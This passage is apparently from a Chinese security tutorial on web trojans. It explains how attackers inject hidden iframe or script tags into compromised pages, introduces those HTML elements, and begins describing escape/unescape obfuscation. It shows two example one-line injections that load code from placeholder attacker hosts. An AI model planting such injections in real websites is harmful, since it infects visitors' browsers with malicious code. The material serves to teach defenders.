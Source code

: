 网页挂马的方式最常见的就是通过注入代码，黑阔们可能会使用软件批量扫站，取得写入权限后向网页内注入恶意脚本。

通常，由于注入一大片脚本会导致文件大小突然变大很多，这样将很容易被发现，所以通常攻击者注入的都是简短的一行：

```
<iframe src=”http://something.eval”  width= 0 height=0/>

```

或者

```
<script src=”http://also.something.eval” />

```

这样，当用户访问当前网页时就会自动加载起攻击者的网页或者脚本。在早期的网马中，通常width / height 的值很小，或者iframe、script出现在html标记之前或者/html标记之后都会被认为是恶意的。后来逐渐发展，由国外的Exploit Toolkit带起来动态创建元素、302跳转。 以及国内网马也开始用Style标记隐藏元素，以及其他做法都出现了。

关于网马的提供源，可见参考资料(1)。最近几篇中，将穿插着同时介绍HTML，以及相关的网马知识，至于SWF、PDF之类的，将放在后面提一提。

由于这是本篇的最开始，所以我们先简单的介绍几个元素：

1. IFRAME
---------

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/6d74ff2ae5f9bc10450b737918c2d0f85a8881e3.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/b0dc013315d99e6e6d04aa7241b57aafcaacd8c7.jpg)

图：IFRAME在IE中的显示效果

以上为一个IFRAME，用途是在当前网页内再用“框架”显示一个网页，这是最常见的。FRAMESET（+ FRAME）也可以做到。上图中alert部分的代码会在当前域执行。

FRAME相当于一个独立的网页，它（FRAME）的宿主是外层网页，它（FRAME）的内部元素宿主是该FRAME自身。如果需要配合body onload等事件触发漏洞的话，选择iframe将是一个不错的计划。

2. SCRIPT
---------

* * *

SCRIPT标签通过src可以加载一个存放于外部网站的脚本，这对控制网马攻击并插入当前网站的恶意代码的量有显著的作用。恶意利用代码的长度通常都不短，直接写入的话可能导致当前网站文件大小异常，或者流经网络的流量异常，从而被管理员很快发现。

简短的脚本也可以直接写入，例如几年前最为流行的MS06-014（CVE-2006-0003）漏洞。作用域为当前域。

然后，针对代码的混淆，假定各位已经掌握了基础的JavaScript/VBScript的相关知识，如果没有可以参考W3School的相关教程。我们先来认识一组函数，这组函数提供了加密/编码的功能：

```
unescape/ escape

```

这对函数互为逆反。

该函数的工作原理是这样的：通过找到形式为 %xx 和 %uxxxx 的字符序列（x 表示十六进制的数字），用 Unicode 字符 \u00xx 和 \uxxxx 替换这样的字符序列进行解码。(2)

在脚本引擎中该函数的实现为：逐字搜索%，找到后对后续内容进行有效性检查（“u”开始？ 是否都为16进制数字？），满足条件后，用对应字符替换%序列。
